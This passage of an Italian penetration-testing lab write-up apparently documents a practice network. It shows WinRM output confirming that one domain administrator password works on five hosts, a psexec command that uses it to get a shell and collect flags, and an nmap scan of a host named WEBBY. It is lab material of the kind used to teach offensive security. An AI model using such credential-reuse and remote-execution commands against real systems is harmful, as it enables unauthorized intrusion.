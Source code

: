 Quindi posso accedere tramite winrm alle macchine:

```bash
WINRM       172.16.165.21   5985   172.16.165.21    [+] relia.com\administrator:vau!XCKjNQBv2$ (Pwn3d!)
WINRM       172.16.165.6    5985   172.16.165.6     [+] relia.com\administrator:vau!XCKjNQBv2$ (Pwn3d!)
WINRM       172.16.165.5    5985   172.16.165.5     [+] relia.com\administrator:vau!XCKjNQBv2$ (Pwn3d!)
WINRM       172.16.165.7    5985   172.16.165.7     [+] relia.com\administrator:vau!XCKjNQBv2$ (Pwn3d!)
WINRM       172.16.165.30   5985   172.16.165.30    [+] relia.com\administrator:vau!XCKjNQBv2$ (Pwn3d!)
```

Quindi utilizzo questo comando per accedere e collezionare tutte le flag presenti su questa macchina:

```bash
impacket-psexec relia.com/Administrator:"vau\!XCKjNQBv2$"@172.16.165.30
```

## 172.16.X.30 - WEBBY {pwned:proof}

```bash
sudo nmap -sC -sV -O 172.16.156.30
```

```bash
Nmap scan report for 172.16.156.30 (172.16.156.30)
Host is up (0.020s latency).
Not shown: 995 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Anna Test Machine
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RELIA
|   NetBIOS_Domain_Name: RELIA
|   NetBIOS_Computer_Name: WEBBY
|   DNS_Domain_Name: relia.com
|   DNS_Computer_Name: WEBBY.relia.com
|   DNS_Tree_Name: relia.com
|   Product_Version: 10.0.20348
|_  System_Time: 2024-05-26T14:42:40+00:00
| ssl-cert: Subject: commonName=WEBBY.relia.com
| Not valid before: 2024-05-11T16:16:13
|_Not valid after:  2024-11-10T16:16:13
|_ssl-date: 2024-05-26T14:43:20+00:00; +4s from scanner time.
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-05-26T14:42:40
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
```